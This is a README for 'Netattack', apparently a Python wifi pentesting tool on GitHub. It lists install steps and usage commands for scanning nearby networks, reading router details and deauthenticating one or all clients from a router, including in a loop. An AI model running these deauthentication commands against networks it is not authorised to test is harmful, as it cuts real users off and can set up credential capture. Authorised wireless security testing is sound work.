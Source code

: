 # Netattack

Netattack is a tool for wifi pentesting attacks

## Starting

### Pre-requisites

```
sudo apt install python3
sudo apt install python3-pip
```

### Installation
```
git clone https://github.com/juanga333/Netattack.git
cd Netattack
pip3 install -r requirements.txt
```

### Usage
_To put your network interface in monitor mode_
```
sudo python3 nattack.py -i <interface> -mt
```

_To put your network interface in managed mode_
```
sudo python3 nattack.py -i <interface> -mg
```

_Also you can get the MAC address and more information about the router you are connected to_
```
sudo python3 nattack.py -i <interface> -g

```
_To see all nearby wifi_
```
sudo python3 nattack.py -i <interface> -a
```

_This is the basic usage example to deauthenticate a wifi client from a router_
```
sudo python3 nattack.py -i <interface> -b <bssid> -v <victim mac> 
```

_To deauthenticate all wifi clients from a router_
```
sudo python3 nattack.py -i <interface> -b <bssid>
```

_To deauthenticate all wifi clients from a router in a loop_
```
sudo python3 nattack.py -i <interface> -b <bssid> -d
```
